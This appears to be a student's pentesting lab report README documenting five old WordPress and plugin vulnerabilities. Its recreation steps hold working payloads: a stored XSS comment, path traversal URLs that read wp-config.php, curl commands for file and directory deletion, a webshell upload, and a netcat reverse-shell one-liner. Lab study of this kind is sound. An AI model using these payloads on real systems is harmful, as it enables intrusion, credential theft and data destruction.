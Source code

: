 # Project 7 - WordPress Pentesting

Time spent: **27+** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - <a href="https://www.exploit-db.com/exploits/36844/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
    ![GIF Walkthrough](./img/1.gif)
  - [ ] Steps to recreate: 
     - From the main page click on the post with open comments section
     - Scroll to the comment form and fill the fields
        - In the comment content field paste (the comment has to be at least 64kb long): 
            ```html
                <a title='x onmouseover=alert(unescape(/hello%20world/.source)) 
                style=position:absolute;left:0;top:0;width:5000px;height:5000px  
                AAAAA...[64kb]..AAA'></a>
            ```
    - Post it and get approval from the admin
    - Visit the page with your comment posted
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-includes/comment.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-includes/comment.php#L0)

2. Wordpress CodeArt Google MP3 Player plugin - File Disclosure Download
  - [ ] Summary: 
    - Vulnerability types: IDOR
    - <a href="https://www.exploit-db.com/exploits/35460/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">1.0.11</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    - ![GIF Walkthrough](./img/2.gif)
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">plugin</a>
     - Unauthenticated user can follow this URL [http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php](http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php) and access config file with authentication unique keys and salts.
  - [ ] Affected source code:
    - [wp-content/plugins/google-mp3-audio-player/direct_download.php](https://github.com/cpom/encoremtl/blob/master/wp-content/plugins/google-mp3-audio-player/direct_download.php)

3. Wordpress <= 4.9.6 Arbitrary File Deletion Vulnerability Exploit
  - [ ] Summary: 
    - Vulnerability types: CSRF
    - <a href="https://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: 4.9.7
    - ![GIF Walkthrough](./img/3.gif)
  - [ ] Steps to recreate: 
     - Login to an account that has an Author role
     - Add an image to library
     - Click on "Edit more details"
     - In the HTML source find a hidden input with an id "_wpnonce" and copy it's value
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=editattachment&_wpnonce=[value]&thumb=../../../../wp-config.php'```
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=editattachment&_wpnonce=8162d5bb40&thumb=../../../../wp-config.php'
        ```
     - Copy "_wpnonce" value from the link with "submitdelete deletion" class
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=delete&_wpnonce=***'```
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=delete&_wpnonce=[value]'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=delete&_wpnonce=17b7da78d8'
        ```
     - Refresh wp-admin page

  - [ ] Affected source code:
    - [/tags/4.9.6/src/wp-admin/includes/ajax-actions.php](https://core.trac.wordpress.org/browser/tags/4.9.6/src/wp-admin/includes/ajax-actions.php)

4. WordPress 3.x, 4.x Path Traversal + Directory Listing + File Deletion Vulnerabilities
  - [ ] Summary: 
    - Vulnerability types: Directory traversal/IDOR
    - <a href="https://www.homelab.it/index.php/2014/08/06/wordpress-3-4-vulnerabilities/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.9.8
    ![GIF Walkthrough](./img/4.gif)
  - [ ] Steps to recreate: 
     - Choose a plugin
     - Click on "Deactivate" and "Delete" buttons
     - Replace plugin location with target directory in the url.
        Example: ```http://localhost/wp-admin/plugins.php?action=delete-selected&checked[0]=../../../../var/www/.&plugin_status=all&paged=1&s&_wpnonce=1154979245```
     - Click on "Yes delete these files"
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-admin/plugins.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-admin/plugins.php)

5. Wordpress Work the flow file upload 2.5.2 Shell Upload Vulnerability
  - [ ] Summary: 
    - Vulnerability types: Arbitrary Code Execution
    - <a href="https://www.exploit-db.com/exploits/36640/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">2.5.2</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    ![GIF Walkthrough](./img/5.gif)
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">plugin</a>
     - Unauthenticated user can upload the <a href="./shell_scripts/shell.php" target="_blank">shell script</a> by running this code 
     ```bash
     curl -k -X POST -F "action=upload" -F "files=@./shell.php" http://wpdistillery.vm/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php
     ```
     - Unauthenticated user can run shell scripts on the server.
        Example: (Taken from: https://blaksec.com/index.php?title=DerpNStink:_1_~_VulnHub_-_Walkthrough#Exploitation)
     ```bash
     curl http://wpdistillery.vm/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php?cmd=hostname
     
     nc -lt -p 4444
     
     curl -G "http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/shell.php" --data-urlencode "cmd=rm -f /tmp/backpipe; mkfifo /tmp/backpipe; cat /tmp/backpipe | /bin/sh -i 2>&1|nc 192.168.56.203 4444 >/tmp/backpipe"
     ```
  - [ ] Affected source code:
    - [tags/4.2/src/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php]("./plugins_repo/index.php")

## Assets

  - <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">A plugin</a> for vulnerability #2.
  - <a href="./plugins_repo/work-the-flow-file-upload.2.5.2.zip" target="_blank">A plugin</a> for vulnerability #5.
  - <a href="./shell_scripts/shell.php" target="_blank">Shell script</a> for vulnerability #5.

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

It was hard to find any exploits that actually work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
